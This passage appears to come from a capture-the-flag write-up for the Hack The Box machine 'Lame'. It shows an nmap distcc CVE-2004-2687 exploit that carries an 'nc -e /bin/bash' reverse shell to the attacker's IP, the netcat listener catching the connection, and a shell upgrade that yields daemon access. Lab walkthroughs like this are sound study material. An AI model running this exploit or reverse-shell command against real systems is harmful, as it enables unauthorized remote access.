 #### 1.1.6.2 Exploit

```less
┌─[r4ndhex@parrot]─[~]
└──╼ $ nmap -p 3632 -Pn --script distcc-cve2004-2687 --script-args "distcc-cve2004-2687.cmd='nc -e /bin/bash 10.10.14.48 9002'" lame.htb

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-18 13:52 UTC

┌─[✗]─[r4ndhex@parrot]─[~]
└──╼ $sudo nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.129.159.140 46245


script /dev/null -c bash
daemon@lame:/tmp$ whoami
daemon
```